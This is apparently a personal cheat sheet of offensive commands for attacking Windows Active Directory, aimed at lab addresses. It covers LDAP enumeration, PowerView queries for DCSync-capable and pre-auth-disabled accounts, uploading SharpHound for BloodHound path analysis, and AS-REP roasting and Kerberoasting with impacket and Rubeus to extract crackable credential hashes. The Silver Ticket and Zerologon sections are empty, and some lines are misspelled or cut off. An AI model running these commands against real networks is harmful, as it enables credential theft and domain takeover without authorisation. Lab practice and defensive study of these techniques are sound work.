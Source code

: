 ## LDAPsearch 
```
ldapsearch -h 10.10.10.100 -x -s base namingcontexts
ldapsearch -h 10.10.10.100 -x -b "DC={domain},DC={domain}" 
ldapsearch -h 10.10.10.100 -x -b "DC={domain},DC={domain}" | grep -i {something to grep}
```
* namingcontext to find domain name

### Powerview.ps1
```
Find accounts that can do DCSync:
Get-ObjectACL "DC={domain},DC={domain}" -ResolveGUIDs | ? {($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ObjectAceType -match 'Replication-Get

Find accounts that can do asreproasting:
Get-DomainUser -PreauthNotRequired -verbose
```

https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993
## Bloodhound / ACL Abuse
#### How to use sharphound
finds out about users and their groups.
Take note this is for priviledge escalation and only after having initial access.
```
sudo apt install neo4j
http://localhost:7474
```
* Neoj4 is for the GUI for bloodhound
* runs on port 7474
* set a password on first install. Original neoj4:neoj4
```
./apt-get install bloodhound
```
* login: neoj4:password

Download SharpHound and upload to the target.
https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors
```
upload SharpHound.exe
.\SharpHHound.exe
download 20210609021515_BloodHound.zip
```
```
./Bloodhound --no-sandbox
```
* Launch Bloodhound and drag and drop the .zip file onto bloodhound
#### Bloodhound
##### Analysis
```
Shortest Path from Owned Principals
```
#### Node info
```
First Degree Group Memberships
Explicit Object Controllers
Unrolled Object Controllers
```
## Asrep roast
> no initial access
```
GetNPUsers.py -request -dc-ip 10.10.10.100 {domain}/
GetNPUsers.py -request -dc-ip 10.10.10.100 {domain}/{useraccount}
```
> with intial acess
```
.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast
Get-DomainUser -PreauthNotRequired -verbose (powerview)
```
* get accounts find accounts that has preauthnotrequired via impacket

## Kerberoasting 
```
ldapsearch -h 10.10.10.100 -x -b "DC={domain},DC={domain}" | grep -i serviceprincipalname
GetUserSPNs.py -request -dc-ip {ip} {domain}/{service name}
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```


## Pass the Silver Ticket
## Zerologon
